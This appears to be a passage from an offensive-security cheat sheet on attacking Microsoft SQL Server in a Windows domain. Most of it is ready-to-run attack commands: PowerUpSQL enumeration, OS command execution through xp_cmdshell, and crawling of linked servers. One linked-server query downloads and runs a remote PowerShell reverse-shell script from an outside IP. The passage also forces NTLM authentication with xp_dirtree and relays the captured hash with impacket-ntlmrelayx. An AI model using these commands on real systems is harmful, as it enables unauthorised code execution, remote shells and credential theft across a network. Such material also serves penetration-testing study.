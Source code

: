 SQL

We can also use [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) to look for databases within the domain, and gather further information on (reachable) databases. We can also automatically look for, and execute queries or commands on, linked databases (even through multiple layers of database links).

```powershell
# Get MSSQL databases in the domain, and test connectivity
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded | ft

# Try to get information on all domain databases
Get-SQLInstanceDomain | Get-SQLServerInfo

# Get information on a single reachable database
Get-SQLServerInfo -Instance TARGETSERVER

# Scan for MSSQL misconfigurations to escalate to SA
Invoke-SQLAudit -Verbose -Instance TARGETSERVER

# Execute SQL query
Get-SQLQuery -Query "SELECT system_user" -Instance TARGETSERVER

# Run command (enables XP_CMDSHELL automatically if required)
Invoke-SQLOSCmd -Instance TARGETSERVER -Command "whoami" |  select -ExpandProperty CommandResults

# Automatically find all linked databases
Get-SqlServerLinkCrawl -Instance TARGETSERVER | select instance,links | ft

# Run command if XP_CMDSHELL is enabled on any of the linked databases
Get-SqlServerLinkCrawl -Instance TARGETSERVER -Query 'EXEC xp_cmdshell "whoami"' | select instance,links,customquery | ft

Get-SqlServerLinkCrawl -Instance TARGETSERVER -Query 'EXEC xp_cmdshell "powershell.exe -c iex (new-object net.webclient).downloadstring(''http://172.16.100.55/Invoke-PowerShellTcpRun.ps1'')"' | select instance,links,customquery | ft
```

PowerShell

If you have low-privileged access to a MSSQL database and no links are present, you could potentially force NTLM authentication by using the `xp_dirtree` stored procedure to access this share. If this is successful, the NetNTLM for the SQL service account can be collected and potentially cracked or relayed to compromise machines as that service account.

```sql
EXEC master..xp_dirtree "\\192.168.49.67\share"
```

SQL

Example command to relay the hash to authenticate as local admin (if the service account has these privileges) and run `calc.exe`. Omit the `-c` parameter to attempt a `secretsdump` instead.

```bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.67.6 -c 'calc.exe'
```
